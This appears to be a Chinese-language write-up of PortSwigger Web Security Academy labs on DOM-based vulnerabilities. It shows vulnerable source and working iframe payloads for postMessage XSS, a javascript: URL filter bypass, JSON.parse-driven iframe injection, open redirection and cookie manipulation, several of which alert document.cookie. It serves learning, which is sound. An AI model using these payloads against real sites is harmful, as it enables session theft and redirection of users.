

[TOC]

#### 1. DOM XSS using web messages


而这里的题目是将message写入网页。

```html
<script>
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})
</script>
```

POC:

```HTML
<iframe src="https://ac821fec1e9d44ce80a17ea100e50084.web-security-academy.net/" onload="this.contentWindow.postMessage('','*')">
```

#### 2. DOM XSS using web messages and a JavaScript URL

```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

这里检查url里面是否存在`http:`或者`https:`，如果存在其中一个或者两个都存在，则将`url`赋值给`location.href`。

我一开始用`http://qwerty`去尝试，试图找出这个location作用在哪里，然后发现被http被禁止了。

```html
<iframe src="https://ac1e1f361e12719b80c90747000c00e8.web-security-academy.net/" onload="this.contentWindow.postMessage('http://qwerty','*')">
```


换成`https`：

```html
<iframe src="https://ac1e1f361e12719b80c90747000c00e8.web-security-academy.net/" onload="this.contentWindow.postMessage('https://qwerty','*')">
```



换成`https`之后发现跳转了。然而我还是没有找到这个[`location`属性](https://www.runoob.com/w3cnote/js-redirect-to-another-webpage.html)在哪，推测是系统变量。

去搜了一下，这个类似`<a href="location.href">`标签。

那只要将`location.href`改成类似`javascript:alert(1)//https:`就可以了。

POC:

```html
<iframe src="https://ac1e1f361e12719b80c90747000c00e8.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//https:','*')">
```

#### 3. DOM XSS using web messages and `JSON.parse`

```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe');
        var ACMEplayer = {element: iframe};
        var d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```

> **`JSON.parse()`** 方法用来解析JSON字符串，构造由字符串描述的JavaScript值或对象。

尝试构造json：(注意[json的格式](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/JSON))

> 对象和数组的属性名称必须是**双引号**括起来的字符串；最后一个属性后不能有逗号。

`{"type":"load-channel", "url":"javascript:alert(document.cookie)"}`

这个json就会在switch那里进入第二个case，然后把javascript部分放到src里面，进而执行alert函数。

POC:

```html
<iframe src="https://ac451f2d1fb1f86d80f705ef00a8009a.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:alert(document.cookie)\"}","*")'>
```

#### 4. DOM-based open redirection

这道题在评论页面有这样一段源码：

```html
<a href="#" onclick="returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = &quot;/&quot;">Back to Blog</a>
```

所以给url参数就好了,

POC:

```html
<iframe src="https://ac181f981f5097ef80d217e900ee001c.web-security-academy.net/post?postId=4&url=https://acab1fe91f5b97b7802a176e01a9004c.web-security-academy.net/">
<!-- url指向Exploit Server -->
```

#### 5. DOM-based cookie manipulation

随便view一个details，查看源码，发现了这段代码：

```html
<a href="https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=1">Last viewed product</a>
...
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

这里会将`lastViewedProduct`的值填到上面的`href`里面。

尝试闭合：

`https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=2&'><script>alert(1)</script>`

成功。

这里需要先加载恶意的网站来生成cookie，之后需要重定向到主页。

构造POC：

```html
<iframe src="https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=2&'><script>alert(document.cookie)</script>" onload='window.location.assign("https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/")'>
```

这个POC已经可以弹出cookie了，但是不知道为啥不给过。

官方给的payload是在iframe的框架下重定向的。

```html
<iframe src="https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=2&'><script>alert(document.cookie)</script>" onload="if(!window.x)this.src='https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/';window.x=1;">
```

这里如果直接让`onload="this.src='https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/'"`就会一直弹窗，因为每跳转一次，就会触发一次`onload`。

而官方给的payload只会触发一次：第一次触发的时候没有`window.x`，所以触发，之后将`window.x`赋值，就不为空了，也就不会再次触发跳转。

好家伙，官方的paylaod都不给过。裂开。

终于，终于，靶场重置之后，我过了。

#### 6. Exploiting DOM clobbering to enable XSS

